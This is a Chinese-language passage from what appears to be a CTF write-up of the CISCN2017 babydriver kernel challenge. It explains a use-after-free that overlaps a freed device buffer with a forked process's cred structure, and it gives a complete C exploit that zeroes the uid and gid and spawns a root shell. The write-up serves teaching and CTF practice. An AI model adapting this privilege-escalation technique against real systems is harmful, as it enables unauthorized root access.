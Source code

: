 那么根据 UAF 的思想，思路如下：

1. 打开两次设备，通过 ioctl 更改其大小为 cred 结构体的大小
2. 释放其中一个，fork 一个新进程，那么这个新进程的 cred 的空间就会和之前释放的空间重叠
3. 同时，我们可以通过另一个文件描述符对这块空间写，只需要将 uid，gid 改为 0，即可以实现提权到 root

需要确定 cred 结构体的大小，有了源码，大小就很好确定了。计算一下是 0xa8（注意使用相同内核版本的源码）。


### Exploit

注释都写在代码里了，[exploit here](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel/CISCN2017-babydriver)
```C
CISCN2017_babydriver [master●●] cat exploit.c 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stropts.h>
#include <sys/wait.h>
#include <sys/stat.h>

int main()
{
	// 打开两次设备
	int fd1 = open("/dev/babydev", 2);
	int fd2 = open("/dev/babydev", 2);

	// 修改 babydev_struct.device_buf_len 为 sizeof(struct cred)
	ioctl(fd1, 0x10001, 0xa8);

	// 释放 fd1
	close(fd1);

	// 新起进程的 cred 空间会和刚刚释放的 babydev_struct 重叠
	int pid = fork();
	if(pid < 0)
	{
		puts("[*] fork error!");
		exit(0);
	}

	else if(pid == 0)
	{
		// 通过更改 fd2，修改新进程的 cred 的 uid，gid 等值为0
		char zeros[30] = {0};
		write(fd2, zeros, 28);

		if(getuid() == 0)
		{
			puts("[+] root now.");
			system("/bin/sh");
			exit(0);
		}
	}
	
	else
	{
		wait(NULL);
	}
	close(fd2);

	return 0;
}
```